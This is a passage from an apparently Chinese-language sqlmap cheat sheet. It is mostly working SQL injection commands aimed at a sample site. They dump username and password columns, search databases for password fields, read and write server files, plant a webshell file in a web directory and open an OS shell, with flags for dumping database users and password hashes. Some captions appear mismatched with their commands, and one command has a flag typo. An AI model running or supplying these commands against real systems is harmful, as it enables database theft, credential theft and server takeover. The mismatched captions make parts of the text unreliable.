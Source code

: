 查询test数据库中有哪些表

`sqlmap -u "http://www.vuln.cn/post.php?id=1"  --dbms mysql --level 3 -D test -T admin --columns`
`
查询test数据库中admin表有哪些字段

`sqlmap -u "http://www.vuln.cn/post.php?id=1"  --dbms mysql --level 3 -D test -T admin -C "username,password" --dump`

dump出字段username与password中的数据

其他命令参考下面
从数据库中搜索字段

sqlmap -r "c:\tools\request.txt" --dbms mysql -D dedecms --search -C admin,password

在dedecms数据库中搜索字段admin或者password。

读取与写入文件

首先找需要网站的物理路径，其次需要有可写或可读权限。

--file-read=RFILE 从后端的数据库管理系统文件系统读取文件 （物理路径）

--file-write=WFILE 编辑后端的数据库管理系统文件系统上的本地文件 （mssql xp_shell）

--file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径

##示例：
sqlmap -r "c:\request.txt" -p id --dbms mysql --file-dest "e:\php\htdocs\dvwa\inc\include\1.php" --file-write "f:\webshell\1112.php"

使用shell命令：

sqlmap -r "c:\tools\request.txt" -p id --dms mysql --os-shell
接下来指定网站可写目录：

“E:\php\htdocs\dvwa”

####注：mysql不支持列目录，仅支持读取单个文件。sqlserver可以列目录，不能读写文件，但需要一个（xp_dirtree函数）

sqlmap详细命令：

--is-dba 当前用户权限（是否为root权限）

--dbs 所有数据库

--current-db 网站当前数据库

--users 所有数据库用户

--current-user 当前数据库用户

--random-agent 构造随机user-agent

--passwords 数据库密码

--proxy http://local:8080 --threads 10 (可以自定义线程加速) 代理

--time-sec=TIMESEC DBMS响应的延迟时间（默认为5秒）
——————————————————————————————————
Options（选项）：
